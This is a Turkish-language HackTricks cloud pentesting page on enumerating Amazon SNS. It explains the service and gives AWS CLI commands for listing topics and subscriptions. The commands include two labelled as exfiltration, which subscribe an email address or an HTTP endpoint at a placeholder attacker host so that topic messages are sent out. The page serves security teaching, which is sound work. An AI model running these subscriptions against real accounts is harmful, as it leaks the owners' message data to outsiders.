 # AWS - SNS Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SNS

Amazon Basit Bildirim Servisi (Amazon SNS), **tamamen yönetilen bir mesajlaşma servisi** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kisi** (A2P) iletişim türlerini destekler.

A2A iletişimi için ana özellikler **yayınla/abone ol (pub/sub) mekanizmaları** içerir. Bu mekanizmalar, yüksek verimli, **itme tabanlı, çoktan-çoğa mesajlaşmayı** sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolar için son derece avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemi yelpazesine** verimli bir şekilde dağıtabilir, böylece bir fanout mesajlaşma modeli oluşturur.

### **SQS ile Fark**

**SQS**, nokta-nokta iletişimi sağlayan **kuyruk tabanlı** bir hizmettir ve mesajların **tek bir tüketici** tarafından işlenmesini garanti eder. **En az bir kez teslimat** sunar, standart ve FIFO kuyruklarını destekler ve mesajların yeniden denemeler ve gecikmeli işleme için saklanmasına izin verir.\
Öte yandan, **SNS** bir **yayınla/abone ol tabanlı hizmettir**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden-çoğa** iletişimi sağlar. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedefli mesaj teslimatı için filtreleme mekanizmaları sunar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında ayrıştırma sağlasa da, SQS kuyruklu iletişime odaklanırken, SNS olay odaklı, fan-out iletişim modellerini vurgular.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Not edin ki eğer **konu FIFO türündeyse**, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).

Ayrıca, `--topic-arn` bölgeyi içeriyor olsa bile, **`--region`** parametresinde doğru bölgeyi belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız ama sorun bölgedir.
{% endhint %}

#### Kimlik Doğrulaması Olmayan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### İstismar Sonrası

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Süreklilik

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
